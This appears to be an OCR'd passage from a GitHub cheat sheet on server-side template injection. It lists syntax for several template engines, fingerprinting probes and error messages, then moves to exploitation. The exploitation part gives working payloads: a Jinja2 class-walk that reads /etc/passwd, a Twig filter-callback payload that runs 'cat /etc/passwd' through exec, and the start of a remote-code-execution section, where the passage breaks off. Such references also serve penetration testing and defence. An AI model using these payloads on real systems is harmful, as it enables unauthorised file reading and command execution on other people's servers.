 - **Identifying the template engine**
  
  - **Common syntax patterns**
    - Jinja2/Twig: `{{expression}}` and `{% statement %}`
    - FreeMarker: `${expression}` and `<#directive>`
    - Velocity: `$variable` and `#directive`
    - Handlebars: `{{expression}}`
    - ERB: `<%= expression %>` and `<% statement %>`
    - Smarty: `{$variable}` and `{function}`
    - Mako: `${expression}` and `% statement`
    - Django: `{{expression}}` and `{% statement %}`
    - Razor: `@(expression)` and `@statement`
  
  - **Template engine fingerprinting**
    
    - **Mathematical operations**
      - Jinja2/Twig: `{{7*'7'}}` returns `7777777`
      - Twig: `{{7*7}}` returns `49`
      - FreeMarker: `${7*7}` returns `49`
      - Velocity: `#set($x = 7*7)${x}` returns `49`
      - ERB: `<%= 7*7 %>` returns `49`
    
    - **Language-specific syntax**
      - Jinja2: `{{ config }}` or `{{ config.items() }}`
      - Twig: `{{ _self.env }}`
      - FreeMarker: `<#list .data_model?keys as key>${key}</#list>`
      - Velocity: `#set($x = $request.getClass().forName('java.lang.Runtime'))`
      - ERB: `<%= defined?(Rails) %>`
  
  - **Error message analysis**
    - Invalid syntax often produces error messages revealing the engine
    - Example (ERB error):
      ```
      (erb):1:in `<main>': undefined local variable or method 'foobar'
      ```
    - Example (Jinja2 error):
      ```
      jinja2.exceptions.UndefinedError: 'foobar' is undefined
      ```

- **Exploiting SSTI by template engine**
  
  - **Jinja2/Twig (Python/PHP)**
    
    - **Basic exploration**
      - Display all variables: `{{ config.items() }}` (Jinja2)
      - Display all variables: `{{ _context }}` (Twig)
      - Verify environment: `{{ self }}`, `{{ namespace }}`, `{{ _self }}`
    
    - **Reading files**
      - Jinja2: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}`
      - Twig: `{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("cat /etc/passwd") }}`
    
    - **Remote code execution**
      - Jinja2:
        ```
        {{ ''.__class__.__mro__[1].__subclasses__()[40]('./app').read() }}
        